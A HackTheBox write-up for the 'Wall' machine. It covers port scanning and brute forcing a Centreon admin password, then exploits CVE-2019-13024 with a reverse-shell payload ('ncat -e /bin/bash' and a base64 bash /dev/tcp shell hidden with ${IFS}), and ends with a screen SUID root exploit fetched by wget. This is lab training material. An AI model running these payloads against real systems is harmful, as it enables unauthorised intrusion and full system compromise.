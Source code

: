 ```yaml
---
title: "Wall - HackTheBox"
date: "2019-12-07"
tags: []
---
```


## Information gathering

Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 19:40 EDT
Nmap scan report for 10.10.10.157
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
```

The web server has the Apache's default homepage.

Running a quick discovery gives us some pages to visit:
```
$ gobuster dir -q -t 40 -w raft-medium-files.txt -u http://10.10.10.157
/index.html (Status: 200)
/panel.php (Status: 200)
/wp-forum.phps (Status: 403)
/aa.php (Status: 200)
```

```
$ gobuster dir -q -t 40 -w raft-medium-directories.txt -u http://10.10.10.157
/monitoring (Status: 401)
/server-status (Status: 403)
```

## Exploration

`/aa.php` and `/panel.php` do not contain anything useful and `/monitoring` is
protected by HTTP basic authentication, which I tried to bruteforce with no
success. After a bit of tinkering, I found that making a `POST` request to
`/monitoring` redirects you to a page containing a link to `/centreon`:

```
$ curl -X POST -L http://10.10.10.157/monitoring
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Visiting `/centreon` we find ourselves in front of a login form for the Centreon
platform, which is a system monitoring tool:

![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/wall/centreon.png)

Let's try to login with a random username and password, and intercept the
request with Burp:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/wall/login.png)

The login process uses a token that changes with every request, so we can not
use hydra to do a bruteforce. We might write a script that fetches the token and
makes the login request, but whenever I stumble upon new web applications, I
like to learn how the mechanisms behind them are implemented. Centreon, in this
case, have an API that can be used to authenticate users and get a token. We can
then use wfuzz to find valid combination of username and password.

Before we launch the bruteforce, let's check if the API endpoint is up and
running:
```
$ curl -d "username=test&password=test" "http://10.10.10.157/centreon/api/index.php?action=authenticate"
"Bad credentials"
```

Ok, the authentication API works. A quick search tells us that the default
username on Centreon is `admin`, so let's start a bruteforce on that:

```
$ wfuzz -c --hc 403  -w probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 1575

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000048:   200        0 L      1 W      61 Ch       "password1"

Total time: 12.86365
Processed Requests: 1575
Filtered Requests: 1574
Requests/sec.: 122.4380
```

Nice! Look's like admin's password is `password1`! Let's use it to login.

## Exploiting

Here is the panel after logging in:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/wall/panel.png)
The menu on the right of the Centreon panel allows us to discover it's version
by going on Administration > About, and it's 19.04.0 commit `f2a106936`.

A search on Google immediately points us toward a remote code execution
identified by `CVE-2019-13024`:

> Centreon 18.x before 18.10.6, 19.x before 19.04.3, and Centreon web before
> 2.8.29 allows the attacker to execute arbitrary system commands by using the
> value "init_script"-"Monitoring Engine Binary" in main.get.php to insert a
> arbitrary command into the database, and execute it by calling the vulnerable
> page www/include/configuration/configGenerate/xml/generateFiles.php (which
> passes the inserted value to the database to shell_exec without sanitizing it,
> allowing one to execute system arbitrary commands).

The identification code for the exploit is `47069` on exploit-db, so let's
download it with `searchsploit -m 47069`. Let's have a look at the payload
section:
```python
payload_info = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    # this value should be 1 always
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    # this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token,
}
```

The `nagios_bin` field is the one that will be executed on the server.  The
first thing to do is to launch a netcat listener on our machine with `nc -lnvp
1337`.  

The first thing that we should do is to change all the URLs in the script by
prepending `/centreon` to them, as this is the location that it's installed to
on the machine.


Launching the exploit with our ip address and port, to get a reverse shell, does
not work, because there might be some characters that are not allowed in the
command. Let's try to create a string that could bypass the protections.  
We can encode with base64 our command to avoid using characters like `>` and
`&`:
```
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx
```

I used a bash reverse shell command to connect to our netcat listener because I
don't know which is the version of it on the server (if present at all), as the
syntax may vary from one to another.

Ok, now we have a base64 encoded reverse shell command. Let's add the decoding
command and pipe the result in bash:
```
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | sh
```

Now let's set `nagios_bin` to use this command and remove the `.format(ip,
port)` as it's not needed anymore:
```
"nagios_bin": "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | bash",
```

It still does not work, probably because of white spaces, so let's replace them with `${IFS}`:
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash",
```

This still does not work, probably because of some sort of command concatenation
error, so let's add a `;` after the bash command
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash;",
```

This time we finally have a connection from the server, so the exploit worked!

```
$ nc -lnvp 1337
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

## Privilege escalation
At first I saw this message `[+] We can connect to the local MYSQL service as
'root' and without a password!` and I tried to use mysql to get a shell, but I
could not get a stable output because of the shell running on netcat. I
continued reading LinEnum's output and I found an unusual executable in the
`SUID` files section:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/wall/linenum.png)

It is `screen-4.5.0`, and luckily, there's a handy local root exploit on
[exploit-db](https://www.exploit-db.com/exploits/41154). After downloading it on
our machine, let's start a web server with `python -m http.server 8080` and
let's download it on the remote machine with `wget
http://10.10.14.4:8080/41154.sh`. Just run it and a couple of seconds later we should
have a root shell! Let's read the flags:

```
$ wc -c /home/shelby/user.txt
33 /home/shelby/user.txt

$ wc -c /root/root.txt
33 /root/root.txt
```

I really couldn't find a way from `www-data` to `shelby`, except for some hashes
in `/etc/shadow` but I couldn't crack them, I guess I'll wait for Ippsec's
writeup!

Thanks for reading!
